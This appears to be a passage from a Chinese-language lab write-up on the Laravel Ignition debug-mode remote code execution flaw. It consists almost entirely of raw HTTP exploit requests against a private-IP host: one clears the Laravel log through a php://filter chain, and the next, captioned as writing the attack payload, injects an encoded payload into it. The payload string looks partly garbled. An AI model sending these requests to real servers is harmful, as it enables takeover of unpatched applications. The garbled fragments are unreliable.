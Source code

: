 ```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 307
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile":"php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log", "variableName": "doesnotexist"}}
```

![image-20220211175533429](LaravelDebugModRCE.assets/image-20220211175533429.png)

写入攻击payload

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 192.168.77.37:13010
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 229
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"viewFile": "BBBBBBBBBBBBacon=55=00=45=00=46=00=5A=00=54=00=45=00=39=00=42=00=52=00=41=00=3D=00=3D=00", "variableName": "doesnotexist"}}
```
